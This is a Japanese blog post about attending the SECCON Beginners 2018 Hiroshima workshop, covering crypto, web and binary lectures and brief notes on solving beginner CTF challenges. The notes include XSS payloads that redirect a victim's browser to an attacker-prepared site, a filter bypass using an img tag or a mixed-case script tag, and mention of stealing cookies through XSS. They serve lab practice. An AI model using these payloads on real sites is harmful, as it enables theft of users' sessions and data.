 # SECCON Beginners 2018 広島 に行ってきた

### 目次
- Introduction  
- Crypto(暗号)の講義内容  
- Webの講義内容  
- Binaryの講義内容  
- CTFの内容  
- 感想や他の人の参加記等  


### 行った理由
こないだ行われたSECCON Beginners 2018 CTFでは全然解けずひどかったので参加したかったのです


### 勉強会の内容
- Crypto(暗号)の講義  
- Webの講義  
- Binaryの講義  
- やさしいCTF(2時間ぐらいだったかな?)  
- 交流会  


## Crypto(暗号)講義の非常に大雑把な内容
- modの求め方  
- 逆元の求め方  
- RSA(現在使用されている公開鍵暗号方式)の概要  

### Crypto(暗号)講義の感想
勉強会の中だけでは理解できなかったので復習必要だと感じました  
つまり？　　

### すうが くだいじ
![](./TOMATOICON.046.jpeg)

## Web講義の大雑把な内容
- XSSについて 
- XSSを利用してCokkiを取得する方法
-  XSSを利用してユーザーエージェントを取得する方法(こないだのCTFの問題) 

### XSSとは？
ユーザから入力される内容を表示するサイトで、そのフォームに`<script>`タグ等を入れて不正なスクリプト等を埋め込み、セッションIDを盗む攻撃です。

## Binary講義の非常に大雑把な内容
- 機械語命令(アセンブリ言語)
- 算術命令とか条件分岐とか

## CTF
![](./ctf4b_result1.png)
*灰色が解けた問題

![](./ctf4b_result2.png)
- 通常のCTFより簡単なCTFが行われました。
- 結果は順位：８位
- 点数：1000点
- 良くもなく悪くもなく?
- ぼちぼちな点数でした。

### 今回の問題を一部紹介
- なお大雑把に記載します。他の人のほうが詳細に取り上げておらますのでそちらの方も御覧ください。(最後にリンクを張っています)

### 問題: Calc
- ページに乗った数式の答えを100回連続で答える問題です。
- 僕は、100回手動でPythonに数式をペーストして計算を行い回答しました。（あまり良くない方法です()）
- 別の人はPythonのビューティフルスープを利用したスプレイニングを行って回答されました。(僕のより賢い方法です)

### 問題: make alert!
- XSSを行ってjsでalertを表示させる問題です。
- 単純に`alert`を出力するスクリプトをフォームに記載し、flagを取得しました。

### 問題: Contact Revenge
- XSSを行って、フォームにscript `(<script>document.location='用意したサイト'</script>)`を忍ばせて、こちらが用意したサイトにアクセスさせ、相手のクライアント情報の中にあるflagを取得しました。

### 問題: Contact Re-Revenge
- 先程のContact Revengeとは違い`<script>`タグが入力不可な問題でした。
- 僕は`<img src=‘URL’>` という手を無理やり使ってscriptを使用せずにアクセスをさせて、flagを取得しました。
- 他の人に聞いてみると、実は判定が曖昧で`<Script>`など、文字を一部大文字にするだけでもアクセスできた模様です。


### 問題: Raw
- 僕は解けませんでした...
- どうやらバイナリデータの中にFLAGが書かれた文字があったらしいです...
- Kaitoさんはradare2を使用して見つけ出されたそうです。

### 問題: Review
- アセンブリ言語を読んで、最後のRawの値を答えるとFlagが出力される問題です。
- binaryの講習内で行ったものと似たようなものでした。

### その他
- CTF中に作業妨害BGMが流れました。
- 実際のCTFでも妨害BGMが流れるそうです。

## 今回参加した感想
- しゅういちさん、Kaitoさん、なんばつさん、はいひるさんなどなど、色々な方と喋れて楽しかったです！
- またどこかでお会いしたいです..!
- 数学 頑張る…(^q^)
- 関西でも開催してほしい！！！

## 他の方の参加記
他の方の参加記のほうが詳しく書かれていますので、そちらも是非御覧ください
- [しゅういちさん](http://ups.hatenablog.jp/entry/2018/09/03/SECCON_Beginners_広島行ってきた)
- [はすみさん](http://mwc922-hsm.hatenablog.com/entry/2018/09/01/234729)
- [Kaitoさん](https://github.com/tMasaaa/ctf/blob/master/seccon_beginners_hiroshima/blog/blog.md)